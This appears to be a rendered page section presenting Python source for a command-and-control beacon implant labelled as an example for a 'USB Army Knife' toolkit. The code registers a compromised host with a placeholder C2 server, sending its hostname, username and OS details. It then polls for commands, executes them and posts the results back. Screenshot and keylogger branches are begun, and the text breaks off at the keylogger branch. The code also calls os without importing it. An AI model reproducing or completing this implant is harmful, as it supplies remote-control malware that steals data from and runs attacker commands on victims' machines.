 
## 🎯 Advanced Beacon Implant Example

```python
#!/usr/bin/env python3
"""
Advanced USB Army Knife Beacon
Supports all C2 features
"""

import requests
import json
import time
import platform
import socket
import base64
from datetime import datetime

C2_SERVER = "http://YOUR_SERVER:8443"
BEACON_ID = None
CHECKIN_INTERVAL = 60

def register():
    global BEACON_ID
    data = {
        "hostname": socket.gethostname(),
        "username": os.getenv("USER") or os.getenv("USERNAME"),
        "os": platform.system(),
        "metadata": {
            "version": platform.version(),
            "architecture": platform.machine(),
            "python": platform.python_version()
        }
    }
    
    response = requests.post(f"{C2_SERVER}/api/beacon/register", json=data)
    result = response.json()
    BEACON_ID = result['beacon_id']
    print(f"[+] Registered as {BEACON_ID}")

def checkin():
    response = requests.post(f"{C2_SERVER}/api/beacon/checkin/{BEACON_ID}")
    data = response.json()
    
    for cmd_obj in data.get('commands', []):
        cmd_id = cmd_obj['id']
        command = cmd_obj['command']
        
        result = execute_command(command)
        
        # Submit result
        requests.post(
            f"{C2_SERVER}/api/beacon/result/{cmd_id}",
            json={"result": result}
        )

def execute_command(command):
    """Execute command with enhanced handling"""
    
    # Screenshot
    if command.startswith("SCREENSHOT"):
        return capture_screenshot()
    
    # Keylogger
```
